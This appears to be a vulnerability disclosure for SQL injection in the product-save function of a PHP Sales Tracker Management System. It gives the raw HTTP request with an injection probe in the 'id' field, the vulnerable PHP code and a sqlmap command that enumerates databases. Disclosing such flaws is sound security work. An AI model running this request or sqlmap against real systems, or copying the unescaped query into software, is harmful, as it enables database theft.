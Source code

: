 Download sourcecode from https://www.sourcecodester.com/php/16061/sales-tracker-management-system-using-php-free-source-code.html

Deploy the system

The sql injection url: http://127.0.0.1/php-sts/classes/Master.php?f=save_product Vulnerability trigger parameter: id(post parameter)

The http message is 

```
POST /php-sts/classes/Master.php?f=save_product HTTP/1.1
Host: 172.31.171.96
Content-Length: 620
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAbc4qHZLzr0zBDjL
Origin: http://172.31.171.96
Referer: http://172.31.171.96/php-sts/admin/?page=products
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _identity-backend=1416da550bcea012a11350a0ee7d79cf245e88d2bb9d4d2aa1f1074044ab7943a%3A2%3A%7Bi%3A0%3Bs%3A17%3A%22_identity-backend%22%3Bi%3A1%3Bs%3A46%3A%22%5B1%2C%22z6lrwixmdNF4VqtkXw6z-3vMZdSdngm2%22%2C2592000%5D%22%3B%7D; PHPSESSID=qj7s632jgajmvubq5d9g49fnnn
Connection: close

------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="id"

1 and 1=1
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="code"

123
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="name"

123
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="description"

123
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="price"

123
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryAbc4qHZLzr0zBDjL--

```

sourcecode:

```php
	function save_product(){
		extract($_POST);
		$data = "";
		foreach($_POST as $k =>$v){
			if(!in_array($k,array('id'))){
				if(!empty($data)) $data .=",";
				$v = htmlspecialchars($this->conn->real_escape_string($v));
				$data .= " `{$k}`='{$v}' ";
			}
		}
		$check = $this->conn->query("SELECT * FROM `product_list` where `code` = '{$code}' and delete_flag = 0 ".(!empty($id) ? " and id != {$id} " : "")." ")->num_rows;
		if($this->capture_err())
			return $this->capture_err();
		if($check > 0){
			$resp['status'] = 'failed';
			$resp['msg'] = "Product Code already exists. Code must be unique";
			return json_encode($resp);
			exit;
		}
		if(empty($id)){
			$sql = "INSERT INTO `product_list` set {$data} ";
		}else{
			$sql = "UPDATE `product_list` set {$data} where id = '{$id}' ";
		}
			$save = $this->conn->query($sql);
		if($save){
			$cid = !empty($id) ? $id : $this->conn->insert_id;
			$resp['cid'] = $cid;
			$resp['status'] = 'success';
			if(empty($id))
				$resp['msg'] = "New Product successfully saved.";
			else
				$resp['msg'] = " Product successfully updated.";
		}else{
			$resp['status'] = 'failed';
			$resp['err'] = $this->conn->error."[{$sql}]";
		}
		// if($resp['status'] == 'success')
		// 	$this->settings->set_flashdata('success',$resp['msg']);
			return json_encode($resp);
	}
```

![sourcecode](https://github.com/paiqian/php-sts-vultest/blob/main/static/image-20230310202421828.png)

sqlmap command: sqlmap -r /mnt/d/web_temp/sqlattack.txt -pid --batch --dbs

![1](https://github.com/paiqian/php-sts-vultest/blob/main/static/image-20230310202856402.png)

![2](https://github.com/paiqian/php-sts-vultest/blob/main/static/image-20230310202937055.png)
